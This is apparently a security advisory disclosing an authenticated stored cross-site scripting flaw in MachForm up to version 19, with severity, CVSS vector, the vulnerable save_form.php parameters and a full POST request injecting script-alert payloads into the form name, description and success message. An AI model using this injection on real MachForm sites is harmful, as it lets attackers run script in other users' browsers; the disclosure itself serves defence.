



# Description
MachForm up to version 19 is affected by an authenticated stored cross-stie scripting.

In target web application, the request made to the vulnerable resource has been found to be suffering from XSS attack. Parameters of the body's POST request inside vulnerable URL lacks sanitization, this allows malicious payload to be placed and triggers JavaScript code on the victim’s browser.
# Risk
- Severity: Medium
- CVSS v3.1 Score: 4.6
- CVSS v3.1 Vector: [**AV:N/AC:L/PR:L/UI:R/S:U/C:N/I:L/A:L**](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:R/S:U/C:N/I:L/A:L&version=3.1)
# Affected Resources
- Version: up to MachForm v19
- https://<application-baseurl\>/save_form.php

The vulnerable parameters:
- `fp%5Bdescription%5D`
- `fp%5Bname%5D`
- `fp%5Bsuccess_message%5D`
# Evidence
It is possible to inject a JavaScript payload in any of the vulnerable parameters



Request:
```
POST /save_form.php HTTP/1.1
Host: application-baseurl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://application-baseurl/
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 2737
Origin: https://application-baseurl
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

form_id=59032&csrf_token=26b435873fec39570ba67d44cce86095c0b598cdd2f46a80&fp%5Bid%5D=59032&fp%5Bname%5D=VAPT_FORM<script>alert(1)</script>&fp%5Bname_hide%5D=0&fp%5Bactive%5D=1&fp%5Bdescription%5D=VAPT+Description<script>alert(1)</script>&fp%5Bredirect%5D=&fp%5Bredirect_enable%5D=0&fp%5Bapproval_enable%5D=0&fp%5Bsuccess_message%5D=Success!+Your+submission+has+been+saved!%3Cscript%3Ealert(1)%3C%2Fscript%3E&fp%5Bpassword%5D=&fp%5Bframe_height%5D=385&fp%5Bunique_ip%5D=0&fp%5Bunique_ip_maxcount%5D=5&fp%5Bunique_ip_period%5D=d&fp%5Bcaptcha%5D=0&fp%5Bcaptcha_type%5D=n&fp%5Breview%5D=0&fp%5Bencryption_enable%5D=0&fp%5Bencryption_public_key%5D=null&fp%5Bentry_edit_enable%5D=0&fp%5Bentry_edit_resend_notifications%5D=0&fp%5Bentry_edit_rerun_logics%5D=0&fp%5Bentry_edit_auto_disable%5D=0&fp%5Bentry_edit_auto_disable_period%5D=1&fp%5Bentry_edit_auto_disable_unit%5D=r&fp%5Bentry_edit_hide_editlink%5D=0&fp%5Bkeyword_blocking_enable%5D=0&fp%5Bkeyword_blocking_list%5D=null&fp%5Blanguage%5D=english&fp%5Bresume_enable%5D=0&fp%5Bresume_subject%5D=Your+submission+to+%7Bform_name%7D+has+been+saved&fp%5Bresume_content%5D=Thank+you!+Your+submission+to+%3Cb%3E%7Bform_name%7D%3C%2Fb%3E+has+been+saved.%3Cbr+%2F%3E%3Cbr+%2F%3EYou+can+resume+the+form+at+any+time+by+clicking+the+link+below%3A%3Cbr+%2F%3E%3Ca+href%3D%22%7Bresume_url%7D%22%3E%7Bresume_url%7D%3C%2Fa%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cb%3EIMPORTANT%3A%3C%2Fb%3E%3Cbr+%2F%3EYour+submission+is+considered+incomplete+until+you+resume+the+form+and+press+the+submit+button.&fp%5Bresume_from_name%5D=&fp%5Bresume_from_email_address%5D= &fp%5Bapproval_email_subject%5D=Approval+Required+-+%7Bform_name%7D+%5B%23%7Bentry_no%7D%5D&fp%5Bapproval_email_content%5D=This+entry+needs+your+approval.%3Cbr%2F%3E%3Cbr%2F%3EPlease+approve+or+deny+by+using+the+link+below%3A%3Cbr%2F%3E%3Cstrong%3E%7Bview_entry_link%7D%3C%2Fstrong%3E%3Cbr%2F%3E%3Cbr%2F%3E%3Chr+style%3D%22width%3A+60%25%3Bmargin-top%3A+20px%3Bmargin-bottom%3A+20px%22%3E%3Cbr%2F%3E%7Bentry_data%7D&fp%5Blimit_enable%5D=0&fp%5Blimit%5D=0&fp%5Blabel_alignment%5D=top_label&fp%5Bschedule_enable%5D=0&fp%5Bschedule_start_date%5D=null&fp%5Bschedule_start_hour%5D=12%3A00%3Aam&fp%5Bschedule_end_date%5D=null&fp%5Bschedule_end_hour%5D=12%3A00%3Aam&fp%5Bpage_total%5D=1&fp%5Bpagination_type%5D=steps&fp%5Breview_primary_text%5D=Submit&fp%5Breview_secondary_text%5D=Previous&fp%5Breview_primary_img%5D=&fp%5Breview_secondary_img%5D=&fp%5Breview_use_image%5D=0&fp%5Breview_title%5D=Review+Your+Entry&fp%5Breview_description%5D=Please+review+your+entry+below.+Click+Submit+button+to+finish.&fp%5Bcustom_script_enable%5D=0&fp%5Bcustom_script_url%5D=&el_pos=el_pos%5B%5D%3D1
```

The payload then triggers in when a user attempts to edit the form affected by the injection.



